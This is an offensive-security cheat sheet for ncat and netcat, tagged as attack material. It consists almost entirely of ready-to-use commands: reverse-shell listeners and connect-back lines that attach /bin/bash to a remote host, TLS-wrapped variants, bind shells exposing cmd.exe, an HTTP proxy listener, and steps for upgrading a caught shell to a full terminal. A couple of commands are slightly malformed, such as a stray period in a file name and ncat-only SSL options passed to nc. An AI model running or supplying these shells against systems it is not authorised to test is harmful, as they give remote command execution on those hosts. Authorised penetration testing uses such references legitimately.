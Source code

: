 # ncat

% ncat, nmap
#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 

## help
```
https://nmap.org/ncat/guide/index.html
```

## reverse - linux listener
```
rlwrap -cAr nc -lnvp <lport>
```

## reverse - linux listener (TLS)
```
openssl req -new -x509 -keyout test-key.pem -out test-cert.pem.; rlwrap -cAr nc -lnvp --ssl --ssl-cert test-cert.pem --ssl-key test-key.pem <lport>
```

## reverse - linux binder
#plateform/linux
```
ncat -Cnv <ip> <port> -e /bin/bash
```

## reverse - linux binder (TLS)
#plateform/linux
```
ncat -Cnv --ssl <ip> <port> -e /bin/bash
```

## ncat bind shell ssl filtered
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```


## full tty (1)  
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## full tty (2)
```
CTRL+Z
``` 

## full tty (3)
```
stty raw -echo ; fg
```

## full tty (4)
TERM=screen
```
export SHELL=/bin/bash; export TERM=xterm-256color ; stty rows <ROWS|38> cols <COLS|116>; reset
```

## no tty
```
see expect
```
